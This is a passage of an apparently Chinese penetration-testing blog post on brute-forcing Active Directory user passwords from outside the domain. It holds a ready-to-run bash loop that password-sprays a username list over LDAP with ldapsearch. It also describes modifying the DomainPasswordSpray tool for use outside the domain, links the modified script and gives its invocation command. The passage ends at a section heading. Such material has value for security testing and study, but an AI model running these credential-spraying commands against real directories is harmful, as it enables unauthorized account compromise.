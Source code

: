 
在之前的文章文章《渗透基础——活动目录信息的获取》介绍了kali系统下使用ldapsearch连接LDAP服务器的方法

这里可以简单的加一个循环实现暴力破解，完整的bash命令如下：

```
for i in $(cat test.txt); do echo -e "\n$i";ldapsearch -x -H ldap://192.168.1.1:389 -D "CN="$i",CN=Users,DC=test,DC=com" -w DomainUser123! -b "DC=test,DC=com" |grep "# numEntrie";done
```

test.txt保存所有用户名，如果口令正确，输出查询结果的个数，如果口令错误，返回验证错误：`ldap_bind: Invalid credentials (49)`

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-12-26/3-1.png)

成功暴力破解出用户testb的口令

### 2.Windows系统通过Invoke-DomainPasswordSprayOutsideTheDomain暴力破解域用户口令

DomainPasswordSpray的功能比较完整，但不支持域外的使用，所以我在DomainPasswordSpray的基础上做了一些修改，使其支持域外的使用

具体修改的位置如下：

原版中修改LDAP查询的语句:

```
$DomainContext = New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext("domain",$Domain)
$DomainObject = [System.DirectoryServices.ActiveDirectory.Domain]::GetDomain($DomainContext)
$CurrentDomain = "LDAP://" + ([ADSI]"LDAP://$Domain").distinguishedName
```

替换为LDAP的查询语句，示例：`"192.168.1.1/DC=test,DC=com"`

最终的完整查询语句为：`LDAP://192.168.1.1/DC=test,DC=com`

由于是在域外进行暴力破解，无法获得域用户的口令策略，所以我移除了DomainPasswordSpray中获得口令策略的功能

我已经将修改后的代码上传至github，地址如下：

https://github.com/3gstudent/Homework-of-Powershell/blob/master/Invoke-DomainPasswordSprayOutsideTheDomain.ps1

域外使用的示例命令如下：

```
Invoke-DomainPasswordSprayOutsideTheDomain -Domain "192.168.1.1/DC=test,DC=com" -UserList .\user.txt -Password DomainUser123! -Verbose 
```

输出结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-12-26/4-1.png)

## 0x05 利用思路
---
